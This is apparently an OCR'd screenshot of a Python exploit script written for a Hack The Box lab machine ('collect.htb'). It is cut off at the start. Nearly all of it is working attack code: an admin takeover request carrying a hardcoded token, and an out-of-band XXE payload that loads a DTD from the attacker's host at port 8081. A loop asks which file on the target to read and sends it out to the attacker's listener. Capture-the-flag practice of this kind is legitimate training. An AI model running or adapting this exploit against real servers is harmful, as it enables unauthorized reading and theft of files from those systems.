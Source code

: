 ```python
        headers = {
            'Content-Type': 'application/x-www-form-urlencoded',
            'Host': 'collect.htb'
            },
        data = 'token=ddac62a28254561001277727cb397baf',
        allow_redirects=False
    )

    return s

def exploit_xxe(s, target, lhost):
    payload = '''<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE username [ 
  <!ENTITY % remote SYSTEM "http://{}:8081/dusk.dtd">
  %remote;
  %oob;
]>
<root><method>POST</method><uri>/auth/register</uri><username>&content;</usermame><password></password></root>'''.format(lhost)
    s.post(
        url = f'http://{target}/api',
        headers = {
            'Content-Type': 'application/x-www-form-urlencoded',
            'Host': 'collect.htb'
            },
        data = f'manage_api={urllib.parse.quote(payload)}'
    )

def main():
    TARGET = '10.129.161.15' # machine address
    LHOST = '10.10.14.171' # tun0 address
    try:
        # start web server TCP/8081
        threads = []
        thread = threading.Thread(target=web_server)
        thread.start()
        threads.append(thread)
        
        s = become_admins(TARGET)

        while True:
            remove_files()
            file_to_read = input('\n[>] Insert file or [CTRL]+[C]: ')
            create_files(file_to_read, LHOST)
            exploit_xxe(s, TARGET, LHOST)

    except KeyboardInterrupt:
        print('\n[!] Keyboard interrupt detected. Quitting!')
        sys.exit(1)

    finally:
        remove_files()
        for t in threads:
            t.join()

main()
```

